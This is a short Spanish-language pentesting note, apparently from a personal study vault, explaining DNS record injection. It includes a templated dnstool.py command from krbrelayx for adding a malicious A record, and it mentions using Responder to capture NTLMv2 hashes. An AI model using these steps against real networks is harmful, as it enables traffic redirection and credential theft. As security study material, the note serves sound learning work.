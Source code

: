 -----
- Tags: #teoria #practica #ataque 
- -----

# Injección de registros DNS

La **inyeccion de registros DNS** (DNS Record Injection) es una técnica de ataque que aprovecha las vulnerabilidades en lso servidores DNS para modificar o agregar registros DNS de manera maliciosa. El objetivo prinvipal de esta técnica es alterar la resolución de nombres en un servidor DNS para redirigir el tráfico hacia destinos controlados por el atacante. 

En el sistema DNS, los registros DNS contienen información clave para la resolución de nombres, como la asociación entre nombres de dominio y direcciones IP correspondientes. Al inyectar registros DNS maliciosos, un atacante puede alterar la información en el servidor DSN para manipular las respuestas que envían a los solicitantes legítimos. 

-----
# Explotación 

Para la **injeccion de un registro DNS** podríamos hacer uso de herramientas como [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py), y a su vez en algunos casos, sobre todo en sistemas Windows, podríamos hacer uso de herramientas como el **responder** para envenenar al tráfico en intentar obtener credenciales como el hash NTLMv2 en caso de que se emitan solicitudes al registro DNS injectado con credenciales. 

```bash
git clone https://github.com/dirkjanm/krbrelayx 
cd krbrelayx 

python3 dnstool.py -u '{domain}\{username}' -p '{password}' -r {dns_record_name} -a {action(add,etc)} -t A -d {record_ip} {target_ip}
```
De esta manera estaríamos intentando ingresar un nuevo registro dns con un nombre especificado que se resolverá a una ip especificada. 

